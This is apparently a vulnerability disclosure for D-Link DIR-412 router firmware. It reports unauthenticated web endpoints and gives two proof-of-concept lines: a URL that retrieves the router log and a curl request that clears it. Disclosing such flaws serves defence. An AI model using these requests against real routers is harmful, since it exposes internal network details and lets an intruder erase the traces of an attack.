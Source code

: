 #### info of vulnerability
There are some web interfaces without authentication requirements in D-Link routers. An attacker can get the router’s log file and clear it ,which could be used to detect inside network structure and erase the attack traces.

Vulnerable targets include but are not limited to the lastest firmware versions of DIR-412(A1-1.14WW)   

Poc1: http://targetip/log_get.php
![poc1](https://github.com/dahua966/Routers-vuls/blob/master/DIR-412/poc1.png)
Poc2: curl -d "act=clear&logtype=sysact" "http://targetip/log_clear.php"
![poc2](https://github.com/dahua966/Routers-vuls/blob/master/DIR-412/poc1.png)
#### Acknowledgement
Thanks to the partners who discovered the vulnerability together：

Wei Xie

Zhen-hua Wang

En-Ze Wang